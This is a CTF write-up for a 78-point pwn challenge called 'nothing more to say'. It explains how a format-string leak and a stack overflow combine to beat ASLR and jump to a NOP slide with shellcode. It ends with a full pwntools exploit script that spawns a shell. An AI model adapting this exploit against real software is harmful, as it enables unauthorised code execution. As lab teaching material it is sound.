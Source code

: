 # nothing more to say

## pwn - Points: 78

> Japan is fucking hot. nc nothing.chal.ctf.westerns.tokyo 10001
>
> [warmup](warmup)
>
> [warmup.c](warmup.c)

The binary has no security mechanisms enabled, we can overflow the buffer and can exploit format strings! This gives many exploit possibilities, I decided to place shellcode on the stack and overwrite the `RIP` to jump to it. The only challenge is to deal with `ASLR` and find a reliable way to leak an address that points on the shellcode.

Thanks to the format string vulnerability I could search for offsets whose contents are addresses that point somewhere in the program memory space and calculated offsets that point to the overwritten buffer. So on the first stage the input is a format string to leak an address and overflow the `RIP` to point to the `main` function to recursively call it again for another input.

On the second stage the input is a large `NOP` slide and then the shellcode and an address to overwrite the `RIP` that hopefully points somewhere on the `NOP` slide.

Exploit script:

```python
from pwn import *


context.clear(arch='amd64')
shellcode = asm(shellcraft.sh())

p = process('warmup')
# p = remote("nothing.chal.ctf.westerns.tokyo", 10001)

p.recvuntil(':)\n')

fmt_str = '%47$p'
p.sendline(fmt_str + '\x41' * (264-len(fmt_str)) + p64(0x4006ba))

resp = p.recvuntil(':)\n')
print resp

stk = resp[2:14]
RIP = p64(int(stk,16) - 400)

p.sendline('\x5a' * (264-len(shellcode)) + shellcode + RIP)
p.interactive()
```